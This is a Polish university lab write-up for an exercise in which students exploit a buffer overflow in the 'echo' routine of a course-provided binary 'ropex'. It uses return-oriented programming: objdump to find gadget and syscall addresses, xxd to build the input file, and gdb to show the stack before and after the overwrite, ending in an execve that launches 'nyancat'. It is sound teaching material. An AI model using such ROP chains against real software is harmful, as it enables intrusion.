

> **Zadanie 4.** Przeprowadź na **swoim** komputerze atak na program `«ropex»` wykorzystując podatność **przepełnienia bufora** w procedurze `«echo»`. Posłuż się techniką **ROP** (ang. *return oriented programming*). Wyznacz adresy **gadżetów**, tj. procedury `«gadget»` oraz dowolnej instrukcji `«syscall»` w pliku `«ropex»`. Wpisz je, w porządku *little-endian*, do pliku `«ropex.in.txt»` na pozycji `0x38` i `0x40`, po czym przetłumacz go do postaci binarnej. Następnie uruchom polecenie `«ropex ropex.in»`, aby zobaczyć rezultat wykonania programu `«nyancat»`³. Przy pomocy gdb zaprezentuj zawartość stosu przed i po wykonaniu procedury `«gets»`. Pokaż, że procesor wykonując instrukcję `«ret»` skacze pod przygotowane przez Ciebie adresy.
>> **Wskazówka:** Wykaz poleceń i odnośnik do samouczka gdb podano na stronie przedmiotu w SKOS.
>
>> **³** Do pliku `«ropex.in.txt»` można wpisać inny program pod warunkiem, że jego ścieżka będzie nie dłuższa.

1. `sudo apt-get install nyancat`

2. `objdump -d ropex > ropexDump.txt`  
     
   

3. *big-endian* $\rightarrow$ *little-endian*  
   `00 40 1d 7b` $\rightarrow$ `7b 1d 40 00`  
   `00 40 12 0b` $\rightarrow$ `0b 12 40 00`

4. Umieszczenie powyższych wartości w `ropex.in.txt`

5. `make ropex.in` $\equiv$ `xxd -r ropex.in.txt > ropex.in` (Komenda [xxd](https://www.tutorialspoint.com/unix_commands/xxd.htm))

6. `./ropex ropex.in`

7. `gdb --args ropex ropex.in`  
   `b *0x401d17` - przed wywołaniem `readline` w `echo`  
   `b *0x401d1f` - po wywołaniu `readline` w `echo`  
   `b *0x401d2b` - przed powrotem z `echo`  
   (`restore saved_breakpoints`)  
   `x/56b $sp` / `x/96b $sp`

Wykorzystując instrukcję `readline` zapełniamy cały zaalokowany przez funkcję `echo` obszar stosu śmieciowymi bajtami, w efekcie nadpisując jej rekord aktywacji (łącznie z adresem powrotu) naszymi danymi. Następnie wołana jest funkcja `puts`, która wypisze nasze śmieciowe dane oraz zwróci liczbę wypisanych znaków równą 60 (56 śmieciowych znaków + '\n' + '\0'). Przy powrocie z funkcji `echo` program zamiast prawidłowego adresu powrotu skoczy do `0x401d7b`, gdzie znajduje się `gadget`. Funkcja ta zdekrementuje `%rax` (60 $\rightarrow$ 59) oraz wrzuci do `%rdi` adres na miejsce w stosie trzymające ścieżkę do programu `«nyancat»`. Powrót z tej funkcji skutkuje skokiem do `syscall`, który dla naszych wartości rejestrów `%rax` i `%rdi` zgodnie z [Linux System Call Table](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/) wywoła program `«nyancat»`. Ostatnie, nieomówione przez nas (i nie pojawiające się na stosie) bajty pliku wejściowego to w rzeczywistości [*line feed*](https://pl.wikipedia.org/wiki/Koniec_linii).